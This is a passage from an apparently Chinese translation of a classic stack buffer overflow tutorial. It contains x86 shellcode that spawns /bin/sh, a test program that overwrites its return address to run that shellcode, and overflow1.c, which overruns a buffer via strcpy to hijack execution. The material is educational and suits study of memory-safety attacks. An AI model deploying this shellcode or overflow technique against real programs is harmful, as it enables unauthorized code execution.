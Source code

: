 ```c
        .string \"/bin/sh\" # 8 bytes
        # 46 bytes total
    ");
}
```

我们的新测试程序：

testsc2.c

```c
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;

}
```

```
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
```

## 破解实战

现在把手头的工具都准备好. 我们已经有了shellcode. 我们
知道shellcode必须是被溢出的字符串的一部分. 我们知道必须把
返回地址指回缓冲区. 下面的例子说明了这几点:


overflow1.c

```c
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() {
    char buffer[96];
    int i;
    long *long_ptr = (long *) large_string;

    for (i = 0; i < 32; i++)
        *(long_ptr + i) = (int) buffer;

    for (i = 0; i < strlen(shellcode); i++)
        large_string[i] = shellcode[i];

    strcpy(buffer,large_string);
}
```
